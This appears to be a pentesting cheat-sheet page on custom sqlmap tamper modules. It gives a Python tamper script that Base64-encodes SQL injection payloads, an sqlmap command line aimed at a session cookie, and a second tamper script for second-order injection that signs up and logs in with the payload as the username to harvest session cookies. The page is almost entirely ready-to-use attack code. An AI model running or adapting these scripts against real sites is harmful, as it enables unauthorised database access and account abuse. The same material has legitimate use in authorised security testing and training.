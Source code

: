 <br />

### Custom tamper modules (Base64 encode)

We can also create our custom modules.  
For instance, we create "tamper.py".

```py
#!/usr/bin/python3
from lib.core.convert import encodeBase64
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass
    
def tamper(payload, **kwargs):
    payload = encodeBase64("%s" % payload, binary=False)
    return payload
```

Then execute sqlmap.

```sh
# The tamper is a module, so we need to create __init__.py in the current directory.
touch __init__.py
sqlmap -u "https://example.com/" --cookie "session=*" --tamper=tamper.py
```

<br />

### Multiple Requests

```py
#!/usr/bin/python
import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

address = "http://vulnerable.com"
password = "test"

def dependencies():
    pass

def create_account(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/signup", data=data)

def login(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/login", data=data)
        sessid = s.cookies.get("session", None)
    return "session={}".format(sessid)


def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    create_account(payload)
    headers["Cookie"] = login(payload)
    return payload
```
